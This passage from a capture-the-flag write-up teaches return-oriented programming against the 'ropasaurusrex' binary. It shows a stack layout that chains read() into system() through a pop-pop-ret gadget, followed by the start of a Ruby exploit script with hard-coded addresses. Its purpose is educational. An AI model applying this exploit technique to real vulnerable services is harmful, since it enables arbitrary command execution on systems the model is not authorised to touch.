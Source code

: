 
This lets us remove anywhere from 1 to 4 arguments off the stack before returning. Perfect!

And remember, if you're doing this yourself, be careful that the pops are at adjacent addresses. Using <tt>egrep</tt> to find them can be a little dangerous like that.

So now, if we want a triple pop and a return (to remove the three arguments that <tt>read()</tt> used), we want the address <tt>0x80484b6</tt>, so we set up our stack like this:

```

+----------------------+
|        [...]         |
+----------------------+

+----------------------+ <-- Start of system()'s frame
|      void *arg       | = 0x08049530 (buf)
+----------------------+
|   [return address]   | - 0x44444444
+----------------------+

+----------------------+
| [address of system]  | - 0xb7ec2450
+----------------------+

+----------------------+ <-- Start of read()'s frame
|     size_t count     | - strlen(cmd)
+----------------------+
|      void *buf       | - 0x08049530 (buf)
+----------------------+
|        int fd        | - 0 (stdin)
+----------------------+
|(address of poppopret)| - 0x080484b6
+----------------------+

+----------------------+
|        [...]         |
+----------------------+
```

We also update our exploit with a <tt>s.read()</tt> at the end, to read whatever data the remote server sent to us. The current exploit now looks like:

```

<span class="lnr"> 1 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">"</span><span class="Constant">localhost</span><span class="Special">"</span>, <span class="Constant">4444</span>)
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span><span class="Comment"># The command we'll run</span>
<span class="lnr"> 6 </span>cmd = <span class="Identifier">ARGV</span>[<span class="Constant">0</span>] + <span class="Special">"</span><span class="Special">\0</span><span class="Special">"</span>
<span class="lnr"> 7 </span>
<span class="lnr"> 8 </span><span class="Comment"># From objdump -x</span>
<span class="lnr"> 9 </span>buf = <span class="Constant">0x08049530</span>
<span class="lnr">10 </span>
<span class="lnr">11 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep read</span>
<span class="lnr">12 </span>read_addr = <span class="Constant">0x0804832C</span>
<span class="lnr">13 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep write</span>
<span class="lnr">14 </span>write_addr = <span class="Constant">0x0804830C</span>
<span class="lnr">15 </span><span class="Comment"># From gdb, "x/x system"</span>
<span class="lnr">16 </span>system_addr = <span class="Constant">0xb7ec2450</span>
```